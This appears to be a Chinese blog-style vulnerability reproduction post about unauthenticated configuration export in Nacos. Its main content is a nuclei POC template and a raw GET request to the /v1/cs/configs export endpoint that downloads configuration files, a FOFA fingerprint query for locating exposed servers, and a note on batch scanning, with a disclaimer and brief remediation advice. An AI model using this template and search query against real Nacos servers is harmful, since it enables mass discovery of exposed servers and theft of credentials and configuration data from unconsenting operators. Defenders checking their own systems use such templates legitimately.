 #  Nacos未授权下载配置信息【漏洞复现|附nuclei-POC】   
原创 kingkong  脚本小子   2024-11-26 03:51  
  
****  
**免责声明：**  
**本文内容仅供技术学习参考，请勿用于违法破坏。利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，与作者无关。如有侵权请联系删除。**  
  
****  
****  
**漏洞描述：**  
  
Nacos未授权下载配置信息。  
  
攻击者通过访问特定路径，非法获取配置文件等在内的敏感及关键信息，对系统安全构成重大威胁  
。  
  
  
01  
  
—  
  
**Nuclei POC**  
  
  
```
id: Nacos-unauthorized-Configuration_Information

info:
  name: Nacos未授权下载配置信息

  author: kingkong
  severity: high
  metadata:
    fofa-query: icon_hash="13942501"

http:
  - raw:
      - |
        GET /v1/cs/configs?export=true&group=&tenant=&appName=&ids=&dataId= HTTP/1.1
        Host: {{Hostname}}

    matchers-condition: and
    matchers:
      - type: dsl
        dsl:
              - 'status_code_1 == 200'
        condition: and

```  
  
  
  
02  
  
—  
  
搜索语法  
```
FOFA：icon_hash="13942501"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneubibiaIicaogdDNqyve7j187JYPP24Gf5gZEficzNlMVzELW7mibQEMtvupvqKpF3jq6AhskSOibz9ibhQ/640?wx_fmt=png&from=appmsg "")  
  
界面如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneubibiaIicaogdDNqyve7j187hXZicibsclqpjTFjhswgy2RQhQKOm6HG79ia0zstQ7ZoDLX4UMD0VzX5g/640?wx_fmt=png&from=appmsg "")  
  
03  
  
—  
  
漏洞复现  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneubibiaIicaogdDNqyve7j187puq5eTicDcgicnOKF8Cic65wH4Us8GN6JWC0XNicGLjD4fSQJuza4ibgd2A/640?wx_fmt=png&from=appmsg "")  
漏洞检测POC  
```
GET /v1/cs/configs?export=true&group&tenant&appName&ids&dataId HTTP/1.1
Host: 

```  
  
  
neclei批量检测截图  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneubibiaIicaogdDNqyve7j187lurjoH1AlaKZvrkz4akNbs38oKdvQ9X2Kk1uyQpIWwFZX2wtNuibU0w/640?wx_fmt=png&from=appmsg "")  
  
  
04  
  
—  
  
修复建议  
  
  
1、强化身份验证和访问控制：实施强密码策略、多因素身份验证，并根据用户角色和权限设置适当的访问控制。2、安全配置：确保系统和应用程序的安全配置，包括正确的文件和目录权限设置、网络访问控制等  
  
05  
  
—  
  
下载地址  
  
  
进入公众号点击POC可获取所有POC文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneS7aOPfDNKhvOicibVlyrkJ3A4EuUx5c5S8eAxFnF9KiaibAGJfP6ibB6ze4Rm4pZ7MI4jQibT05lTevqg/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
  
  
  
